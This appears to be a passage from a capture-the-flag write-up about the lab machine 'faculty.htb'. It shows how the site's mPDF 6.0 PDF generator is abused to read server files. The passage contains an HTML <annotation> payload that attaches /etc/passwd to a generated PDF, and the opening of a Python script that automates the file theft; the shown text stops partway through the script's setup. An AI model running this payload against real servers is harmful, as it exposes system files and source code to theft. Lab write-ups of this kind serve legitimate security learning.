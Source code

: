 If we check metadata of that pdf file, we can found that this pdf is generated by **[mPDF version 6.0](https://github.com/mpdf/mpdf/tree/v6.0.0)** PHP library.
```bash
❯ exiftool -Producer OK6pW7BENJD2nVdhKwQRZYUs84.pdf
Producer                        : mPDF 6.0
```

While searching through the issues, found an interesting bug, specifically for mPDF 6.0: https://github.com/mpdf/mpdf/issues/356

And issues says that, "By abusing the tag (`<annotation>`), it was possible to extract sensitive files/source code from the application backend.

The following HTML example includes the file "/etc/passwd" into the generated PDF document.
```html
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```

So, it is possible to read system file using pdf attachment by sending this payload in base64 encode.

![](screenshots/mpdf-file-read.png)

Here is a python Script that takes filename with it's absolute path as a input and save that file from attachment in the CWD if file found on the server.

```py
#!/usr/bin/env python3

"""
Author: poorduck
Description: This script uses the mPDF 6.0 <annotation> issue https://github.com/mpdf/mpdf/issues/356
             to extract server files/source code by including them into pdf file and after downloads the generated file,
             it extracts all attachments from that pdf and saves them to disk.

Usage: python script_name.py file_path
            where file_path is the path to the file to be attached to the PDF.

Example: python3 script.py /etc/passwd
"""

import requests as r
from sys import argv
import base64
import PyPDF2
import os

s = r.session()
# s.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
# s.verify = False
host = "http://faculty.htb"
file_path = argv[1]
```